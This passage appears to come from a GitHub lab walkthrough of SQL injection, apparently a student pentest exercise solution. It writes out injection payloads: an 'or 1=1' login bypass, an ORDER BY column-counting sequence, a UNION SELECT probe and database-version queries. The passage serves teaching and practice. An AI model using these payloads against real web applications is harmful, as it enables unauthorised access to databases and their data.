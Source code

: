 *Watch the result! The payload `minh' or 1=1--` was inserted successfully*

I use ORDER BY clause to determine the number of columns

```sql
minh' ORDER BY 1--
minh' ORDER BY 1,2--
minh' ORDER BY 1,2,3--
..
```

*The result stops at `minh' ORDER BY 1,2,3,4,5,6--`. So the number of columns in this table is 5*

Next i use UNION clause to SELECT values, i try `minh' UNION SELECT '1','2','3','4','5'--` to check which column the value returns

<p align="center">
<img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/4.png" width="666px">
</p>

Okay, the value returns at column 1,2,3,4

I check the type of database this web use

```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
SELECT @@version
SELECT version()
```

<p align="center">